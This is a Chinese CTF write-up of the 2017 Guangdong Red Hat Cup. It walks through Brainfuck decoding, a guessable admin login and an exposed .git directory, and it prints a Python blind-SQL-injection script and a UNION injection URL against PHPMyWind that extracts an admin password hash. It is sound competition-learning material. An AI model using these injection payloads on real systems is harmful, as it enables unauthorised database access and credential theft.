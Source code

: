 <!--
广东省红帽杯网络安全攻防大赛 CTF - Write Up
广东省红帽杯网络安全攻防大赛 CTF
1497753838
-->

## 签到 / Misc / 10pt

本期的签到题没有难度，关注微信公众号「CTFer 的魔法棒」，关注后在公众号中发送 ctf 就会自动回复本题的 FLAG

![](https://imlonghao.b-cdn.net/files/48/590e0ecfb906e.jpg)

```
flag{BE78989E-1F00-8326-11AD-590B23F48AB3}
```

## brian(Y) / Crypto / 50pt

在我还在做签到题的时候就已经有队伍解出来这道题了，所以估计不会太难。

```
+++++ +++++ [->++ +++++ +++<] >++.+ +++++ .<+++ [->-- -<]>- -.+++ +++.<
++++[ ->+++ +<]>+ +++.< ++++[ ->--- -<]>- ----- .<+++ +++[- >---- --<]>
----- ----- -.+.- ..--- ---.. <++++ +++[- >++++ +++<] >.<++ +++++ [->--
----- <]>-- -.+++ .++++ ++.<+ +++++ [->++ ++++< ]>+++ +++++ .<+++ +++[-
>---- --<]> ----- ----- .---- ---.+ +++++ +.<++ ++++[ ->+++ +++<] >++++
+++++ .<+++ +++[- >---- --<]> ----- ----- -.--. ---.< +++++ ++[-> +++++
++<]> ++++. <++++ +++[- >---- ---<] >.+++ +.+++ +.<++ +[->- --<]> ---.<
+++++ ++[-> +++++ ++<]> +++++ +.<++ ++++[ ->--- ---<] >---- ----- --.+.
-.-.. ---.+ +++.< +++++ +[->+ +++++ <]>++ +++++ ++++. <++++ +++[- >----
---<] >---. <++++ +++[- >++++ +++<] >++.< +++++ +[->- ----- <]>-- -----
----- .<+++ +++++ [->++ +++++ +<]>+ +++++ ++++. <
```

观察可知，该密文主要由 +-<>[]. 组成。经过判断，这种语言称为 Brainfuck ，一般由 +-<>[]., 八种字符组成。 使用在线转换网站即可将密文转换回文本，https://www.splitbrain.org/services/ook

```
flag{e676600a-06b4-4a20-b159-d5654415d0c3}
```

## 后台 / Web / 200pt

我真的觉得这题给 200 分是放水的。

题目已经十分明显得暗示了答案

> 经典后台管理系统，系统建成于 2017 年，管理员以建成日期作为口令。

![](https://imlonghao.b-cdn.net/files/48/590e11d9ba4d9.png)

打开网页， `admin` 已经作为 `value` 的参数写在了用户名这一栏当中，可以十分肯定用户名就是 `admin`

而密码根据 `placeholder="........"` 的推测，是有 8 位数的，结合题目的暗示，即为今天的日期： `20170506`

输入验证码后登录，即可以轻松拿到 Flag

```
flag{2ac81311-0d7c-4f52-92ae-233ba3515a6d}
```

##刮刮乐 / Web / 100pt

一打开这个网页，首先我关注了他的网页源代码，源代码并没有给出太多的提示。

在网上进行了相关的搜索，发现这是一个网上一个经典的 canvas 刮刮乐代码，因此问题应该不再这里。

然后我将重点放在了这张图中

一开始以为是 png 隐写之类的，通过 binwalk 检测这应该只是一张纯粹的图片

```
imlonghao@imlonghao ~/下载$ binwalk 5286cd31708ef957.png

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 403 x 214, 8-bit/color RGB, non-interlaced
77            0x4D            Zlib compressed data, default compression
```

然后我就关注在了图片本身，「信息泄露第一步」，应该就是暗示我们扫一下网站的目录。

很快我便发现了存在 `/.git/` 目录，然后套上了 GitHack

很快下载到了一个 `flag.php` 文件，我们的 flag 就躺在里面

![](https://imlonghao.b-cdn.net/files/48/590e8528573e7.png)

```
flag{027ea8c2-7be2-4cec-aca3-b6ba400759e8}
```

## thinkseeker / Web / 300pt

这题开始便有意思了，网页打开就是一个非常简单的提交登录框，估计就是 SQL 注入类型的。

![](https://imlonghao.b-cdn.net/files/48/590e85deb86c7.png)

随便输入了一个 `userid` 和密码，他是以 GET 的方式提交到 / 这个文件的，构成的 URL 就是 http://106.75.117.4:3083/?userid=1&password=1

但是他始终提示我们 `Bad token!` ，一开始也卡了挺久，后来想应该是和其他参数一样，于是构造了个 `http://106.75.117.4:3083/?userid=1&password=1&token=blablabla` 的链接

经过一轮测试， token 应该为 admin 的 MD5 值，然后我们便通过了 token 的检测。

userid 通常按照数据库的自增的话，应该第一个就是 1 ，然后我们知道了这个用户的 userid 为 1

然后进行 SQL 的测试，先看看他有什么被过滤的字符

`'` `"` `join` `union` , 这些被检测出来之后会提示 `inj code!` ，过滤得不多，还有挺多的发挥空间。

参考了网上的姿势，给 userid 使用了 `-1=1=0` ，多重判断之后也成功得通过了 userid 的检验，因此尝试从这里进行盲注。

于是写了个 Python 脚本进行处理，从 Flag 的第一位开始判断，逐位判断。

```python
import requests

url = 'http://106.75.117.4:3083/index.php?userid=(ascii(mid((select(flag)from(flag))from(%s)for(1)))=%s)&password=123456&token=21232f297a57a5a743894a0e4a801fc3'
payloads = '{}-0123456789QWERTYUIOPLKJHGFDSAZXCVBNMqwertyuioplkjhgfdsazxcvbnm'
flag = ''

for i in range(1, 40):
    for payload in payloads:
        text = requests.get(url % (i, ord(payload))).text
        if 'error userid' not in text:
            flag += payload
            continue
    print(flag)


flag{71fb58931b330a83eba9b25e40ac437a}
```

![](https://imlonghao.b-cdn.net/files/48/590e8f16ceff0.png)

## PHPMyWIND / Web / 200pt

![](https://imlonghao.b-cdn.net/files/48/590e91a116e1c.png)

首先看了看网站的 Logo ，所使用的版本应该是 2014 年之前的，也就是说我们有很多选择可以进行操作。

我所使用的注入点是 `shoppingcart.php` 这个文件，注入的结果可以直接以 title 的形式返回出来，比较方便。

首先直接访问

```
http://106.75.96.7:3089/shoppingcart.php?a=addshopingcart&goodsid=1 and @`'` /*!50000union*/ select null,null,null,null,null,null,null,null,null,null,(Select concat(username,0x7e,password) from `pmw_admin` where id=1),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null from pmw_admin where 1=1 or @`'`&buynum=1&goodsattr=tpcs
```

然后在查看我们的购物车

http://106.75.96.7:3089/shoppingcart.php

![](https://imlonghao.b-cdn.net/files/48/590e931ba7a40.png)

我们就拿到了管理员的用户名和密码，分别是 `admin` 和 `4027875a97a7787b9032ea46dae45d05`

通过 CMD5 不难解出 4027875a97a7787b9032ea46dae45d05 的明文就是 666888

使用 admin 和 666888 即可登录到后台，后台的地址也是默认的地址： http://106.75.96.7:3089/admin/

本来是想通过后台 getshell 进行操作然后拿 Flag 的，但是管理员限制了所有上传目录权限，也禁止了修改网站的配置文件。

想了想上午题目刚出来的时候目标站被各种 phpinfo 所占据，影响到很多队伍参赛，我就断定应该是管理员故意禁止的，可能出题人并不希望我们拿 shell ，而是应该将 Flag 写在了网站的某个地方，于是把所有能点的地方点了一遍。

最后找到了这个叫 默认模板文件管理 的地方，发现了我们的 Flag

![](https://imlonghao.b-cdn.net/files/48/590e947e59f05.png)

于是直接访问这个地址，顺利拿到 Flag

![](https://imlonghao.b-cdn.net/files/48/590e94aba3bac.png)

```
flag{14070c9e-bab5-47ec-88f7-9e574bd328f6}
```
